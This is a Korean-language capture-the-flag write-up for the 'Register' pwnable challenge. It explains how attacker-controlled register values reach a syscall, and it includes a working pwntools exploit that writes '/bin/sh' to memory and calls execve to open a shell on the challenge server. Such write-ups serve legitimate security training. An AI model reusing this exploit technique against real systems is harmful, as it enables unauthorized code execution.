



# Register

**Category:** _Pwnable_

**Source:** _Hack_CTF_

**Points:** _350_

**Author:** _galaxy(김경환)_

**Description:** 

> 

## Point
syscall rop

## Write-up



파일을 실행시켜 보면 레지스터들 값을 받는 행위를 계속 반복합니다.



checksec으로 보면 64bit이고 canary가 있기 때문에 bof로 ret주소를 수정하는 부분은 아닐거라 봅니다.

디컴파일해서 보면

main은 build를 호출 할뿐입니다. 그리고 alarm(5u)가 되어 있어 5초 후 SIGALRM이 발생합니다.

build에서는 레지스터들 값을 받습니다.

SIGALRM이 발생하면 handler함수로 가는데 이 함수는 exec_syscall_obj라는 함수를 호출합니다.

입력받았던 값들을 실제 레지스터에 매칭시키고 syscall을 호출합니다.

입력값이 변형되서 들어가지도 않기 때문에 단순하게 syscall을 이용해서 rop를 구성하면 되는 문제입니다.

아래는 exploit코드입니다.

```python
from pwn import *

if __debug__:
	script='''handle SIGALRM noignore
	b handler
	c'''
	#p=gdb.debug('./register',gdbscript=script)
	p=process('./register')
else:
	p=remote('ctf.j0n9hyun.xyz','3026')

def func(rax,rdi,rsi,rdx):
	rcx=r8=r9=0
	print(p.recvuntil('RAX: '))
	p.sendline(str(rax))
	print(p.recvuntil('RDI: '))
	p.sendline(str(rdi))
	print(p.recvuntil('RSI: '))
	p.sendline(str(rsi))
	print(p.recvuntil('RDX: '))
	p.sendline(str(rdx))
	print(p.recvuntil('RCX: '))
	p.sendline(str(rcx))
	print(p.recvuntil('R8: '))
	p.sendline(str(r8))
	print(p.recvuntil('R9: '))
	p.sendline(str(r9))	

data=0x601068

#read
func(0,0,data,8)
p.send('/bin/sh\x00')

#execv
func(59,data,0,0)
p.interactive()
p.close()
```

먼저 read를 호출해서 쓰기 가능한 영역에 /bin/sh를 입력합니다.

그후 execv를 호출해서 /bin/sh를 실행시킵니다.


앞전에 이러한 syscall을 하는 문제가 있던걸로 기억한다.

이문제가 먼저 나왔었더라면 그때 그 고생을 안했을텐데.....

## References
https://filippo.io/linux-syscall-table/
 - syscall 64bit table
